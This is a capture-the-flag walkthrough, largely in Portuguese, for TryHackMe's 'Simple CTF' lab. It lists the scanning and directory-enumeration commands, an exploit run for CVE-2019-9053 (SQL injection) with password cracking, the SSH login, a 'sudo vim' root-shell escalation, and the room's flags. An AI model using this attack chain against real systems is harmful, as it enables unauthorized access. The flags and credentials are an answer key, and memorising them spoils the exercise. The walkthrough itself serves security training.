

# Simple CTF

## config VPN

- [https://tryhackme.com/access](https://tryhackme.com/access)



```bash
	sudo openvpn file.ovpn
```


## How many services are running under port 1000?

```bash
sudo nmap -n -sV -O -A 10.10.6.14
```

- Perceba que o ssh tem modo anonimous
- Entao se quiser entrar sinta-se a vontade

```bash
fta 10.10.6.14
```

- `2`

## What is running on the higher port?

- `ssh`

## What's the CVE you're using against the application?

```bash
gobuster -u http://10.10.6.14/ -w /home/fabis/important/ArquivosH/wordlist/dirbuster/directory-list-2.3-medium.txt -x php,html,txt
```

- [`http://10.10.161.147/simple/`](http://10.10.161.147/simple/)


- Procurando uma CVE por essa versao


- `CVE-**2019-9053**`

## To what kind of vulnerability is the application vulnerable?

- `SQLI`

## What's the password?

- [`http://10.10.6.14/simple/admin/login.php`](http://10.10.6.14/simple/admin/login.php)
- Baixando a CVE que achamos
- Vendo o Codigo ele da um exemplo
    
    
    
- Entao
    - O Python3 nao funciona
    
    ```bash
    python2 exploit.py -u http://10.10.6.14/simple/ --crack -w wordlist/SecLists-master/Passwords/darkweb2017-top100.txt
    ```
    
    
    
- Pra isso vamos instalar o que precisa, `importrequests`
    
    ```bash
    pip2 install requests
    ```
    
    
    
- Entao vamos instalar esse `termcolor`
    
    ```bash
    pip2 install termcolor
    ```
    
- Agora sim
    
    ```bash
    python2 exploit.py -u http://10.10.6.14/simple/ --crack -w wordlist/SecLists-master/Passwords/darkweb2017-top100.txt
    ```
    
    
    
- Vamos procurar que tipo de senha eh essa
    - [https://www.kali.org/tools/hash-identifier/](https://www.kali.org/tools/hash-identifier/)
    
    ```bash
    python hash-id.py
    ```
    
- Agora vamos colocar a `Password found` no hadh-id
    
    
    
- Entao como provavelmente uma criptografia de md5
- Vamos crackear esse md5
- Vamos procurar `md5 crack salt` pois temos o salt
    - [https://www.dcode.fr/md5-hash](https://www.dcode.fr/md5-hash)
    
    
    
- Agora temos a senha `secret` de `mitch`

## Where can you login with the details obtained?

- Agora vamos logar no shh
- Eh possivel tambem entrar no site agora
- `ssh`

## What's the user flag?

```bash
ssh mitch@10.10.6.14 -p 2222
secret
whoami
ls
cat user*
```


- `G00d j0b, keep up!`

## Is there any other user in the home directory? What's its name?

```bash
ls /home
```


- `sunbath`

## What can you leverage to spawn a privileged shell?

```bash
sudo -l
```


- `vim`

## What's the root flag?

- Vamos procurar uma elevacao de privilegio com o vim
    - privilege escalation vim
    - [https://gtfobins.github.io/gtfobins/vim/](https://gtfobins.github.io/gtfobins/vim/)
- Entao vamos usar o comando com `sudo` na frente claro
    
    ```bash
    sudo vim -c ':!/bin/sh'
    ```
    
    
    
    - Batar dar <ENTER> quando ele mostrar esses caracteres

```bash
ls /root
cat /root/root.txt
```

- `W3ll d0n3. You made it!`

---

- Se quiser sair do vim
    
    ```bash
    <ESC> or <INS>
    :q!
    ```